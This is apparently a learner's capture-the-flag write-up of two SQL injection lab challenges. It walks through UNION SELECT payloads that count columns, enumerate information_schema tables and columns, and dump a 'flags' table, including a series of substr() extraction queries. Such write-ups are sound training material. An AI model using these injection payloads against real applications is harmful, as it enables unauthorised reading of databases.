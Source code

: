 * SQLi 1

** What you learn


** Writeup
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/cybersecurity-ctf/web-501-sqli-1/WRITEUP_att
:END:

#+BEGIN_SRC sql
' UNION SELECT 1,description,3 FROM flags #
' UNION SELECT 1,substr(description,5,5),3 FROM flags #
' UNION SELECT 1,substr(description,10,5),3 FROM flags #
' UNION SELECT 1,substr(description,15,5),3 FROM flags #
' UNION SELECT 1,substr(description,20,5),3 FROM flags #
' UNION SELECT 1,substr(description,25,5),3 FROM flags #
' UNION SELECT 1,substr(description,30,5),3 FROM flags #
#+END_SRC

** WAIT What you learn

you can extract data from the database using SQL Injections.

** WAIT Writeup
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/cybersecurity-ctf/web-502-sqli-2/WRITEUP_att
:END:

Opening the challenge will show you a search bar.

[[file:WRITEUP_att/screenshot-20201024-161502.png]]

Entering some data will eventually lead you to retrieve some data from the system. Using the value ~a~ will retrieve products with an ~a~ in it.

[[file:WRITEUP_att/screenshot-20201024-161610.png]]

Entering a ~'~ will actually show a very nice error message.

[[file:WRITEUP_att/screenshot-20201024-161643.png]]

So, the application is susceptible to SQL Injections. Using the SQL Injection from the previous challenge only shows you the entire products table, but not a flag. The hint is to search for ~UNION SELECT~ statements. Trying ~' UNION SELECT 1 #~ as a search term actually shows a very interesting error message.

[[file:WRITEUP_att/screenshot-20201024-161843.png]]

So, the ~UNION~ works, now to figure out the number of columns. After a few attempts you will get to 3 as the number of columns in the query using ~' UNION SELECT 1,2,3 #~. Now to find where the flag is stored.

*** What is the current database?

Using the ~DATABASE()~ function the current database can be retrieved. The query will become ~' UNION SELECT 1,DATABASE(),3 #~. This will show the value of the current database in the ~Description~ column.

[[file:WRITEUP_att/screenshot-20201024-162127.png]]

Great, we now know that we are in a database called ~testdb~.

*** Finding other tables

Now that we know what the database is, we can use that value and query what other tables are part of the schema. This information is stored in the ~information_schema~ in the table ~tables~.

#+BEGIN_SRC sql
' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='testdb' #
#+END_SRC

[[file:WRITEUP_att/screenshot-20201024-230704.png]]

With the table names in had, of which ~flags~ seems the most obvious, all that is needed to get its contents is to know the columns in the table. Using the ~information_schema~ again, but then with the ~columns~ table, this information can be revealed.

#+BEGIN_SRC sql
' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='flags' #
#+END_SRC

The product table will have 1 extra row; ~description~.

*** Get the flag!

Using the information gathered from the ~information_schema~ the contents of the ~flags~ table can be read.

#+BEGIN_SRC sql
' UNION SELECT 1,description,3 FROM flags #
#+END_SRC

And there is the flag.

[[file:WRITEUP_att/screenshot-20201024-230828.png]]
